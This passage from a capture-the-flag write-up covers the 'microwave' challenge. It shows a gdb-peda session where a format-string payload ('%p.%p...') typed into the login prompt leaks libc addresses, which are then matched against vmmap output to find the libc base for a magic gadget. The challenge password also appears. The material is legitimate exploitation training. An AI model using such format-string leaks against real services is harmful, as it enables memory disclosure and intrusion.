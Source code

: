 The addresses leaked from the string format shows some of them are in the libc (starting with 0x7fff...). We need to know how far from the base address these are in order to retrieve the base address. This base address is then used to refer to the magic gadget.

This is easily done with gdb:

```bash

$ gdb microwave_61f50dba931bb10ab3089215b2e188f4
gdb-peda$ set environment LD_PRELOAD=./libc.so.6
gdb-peda$ r
Starting program: /tmp/microwave_61f50dba931bb10ab3089215b2e188f4

 --------------------------------------------------------
 |     Welcome to the next generation of MicroWaves!    |
 |                         ***                          |
 | This stylish Microwave with Grill function, includes |
 |      a function that tweets your favourite food!     |
 |                         ***                          |
 --------------------------------------------------------
           ----------------------------------
           |  1. Connect to Twitter account |
           |  2. Edit your tweet            |
           |  3. Grill &amp; Tweet your food|
           |  q. Exit                       |
           ----------------------------------

           [MicroWave]: 1

           Log in on Twitter:
           username: %p.%p.%p.%p.%p
           password: n07_7h3_fl46

Checking 0xa.0x7ffff7b02870.0x7ffff7ff3740.0x555555556ac0.(nil)
Twitter account
............
           ----------------------------------
           |  1. Connect to Twitter account |
           |  2. Edit your tweet            |
           |  3. Grill &amp; Tweet your food|
           |  q. Exit                       |
           ----------------------------------

           [MicroWave]: ^C
Program received signal SIGINT, Interrupt.
Stopped reason: SIGINT
0x00007ffff7b02810 in read () from ./libc.so.6
gdb-peda$ vmmap
Start              End                Perm  Name
0x0000555555554000 0x0000555555557000 r-xp  /tmp/microwave_61f50dba931bb10ab3089215b2e188f4
0x0000555555757000 0x0000555555758000 r--p  /tmp/microwave_61f50dba931bb10ab3089215b2e188f4
0x0000555555758000 0x0000555555759000 rw-p  /tmp/microwave_61f50dba931bb10ab3089215b2e188f4
0x0000555555759000 0x000055555577a000 rw-p  [heap]
0x00007ffff7a17000 0x00007ffff7bd2000 r-xp  /tmp/libc.so.6
0x00007ffff7bd2000 0x00007ffff7dd1000 ---p  /tmp/libc.so.6
0x00007ffff7dd1000 0x00007ffff7dd5000 r--p  /tmp/libc.so.6
0x00007ffff7dd5000 0x00007ffff7dd7000 rw-p  /tmp/libc.so.6
0x00007ffff7dd7000 0x00007ffff7ddc000 rw-p  mapped
0x00007ffff7ddc000 0x00007ffff7dfc000 r-xp  /lib/x86_64-linux-gnu/ld-2.19.so
0x00007ffff7ff2000 0x00007ffff7ff8000 rw-p  mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r-xp  [vdso]
0x00007ffff7ffa000 0x00007ffff7ffc000 r--p  [vvar]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p  /lib/x86_64-linux-gnu/ld-2.19.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p  /lib/x86_64-linux-gnu/ld-2.19.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p  mapped
```